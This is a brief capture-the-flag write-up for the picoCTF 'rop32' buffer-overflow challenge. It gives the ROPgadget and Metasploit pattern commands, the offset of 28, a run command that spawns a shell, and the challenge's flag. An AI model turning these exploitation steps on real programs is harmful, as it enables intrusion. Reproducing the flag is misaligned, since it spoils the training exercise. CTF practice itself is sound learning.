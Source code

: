 # rop32

## Binary Exploitation - Points: 400

> Can you exploit the following program to get a flag?
>
> [vuln](vuln)
>
> [vuln.c](vuln.c)

Use `ROPgadget` to find a ROP chain that spawns a shell.

    $ ROPgadget --binary vuln --ropchain --badbytes "0a"

Find the offset where the overflowing buffer writes to the `RIP`. Create a pattern and use it in `gdb` to find the address where the `SEGFAULT` occurs.

    $ /opt/metasploit/tools/exploit/pattern_create.rb --length 1024
    $ /opt/metasploit/tools/exploit/pattern_offset.rb -q 0x62413961
      [*] Exact match at offset 28

Execute the ROP chain from `ROPgadget` with the correct padding of 28 to get a shell that lets you `cat flag.txt`.

    $ (python2 sol.py; cat) | ./vuln

flag: `picoCTF{rOp_t0_b1n_sH_01a585a7}`
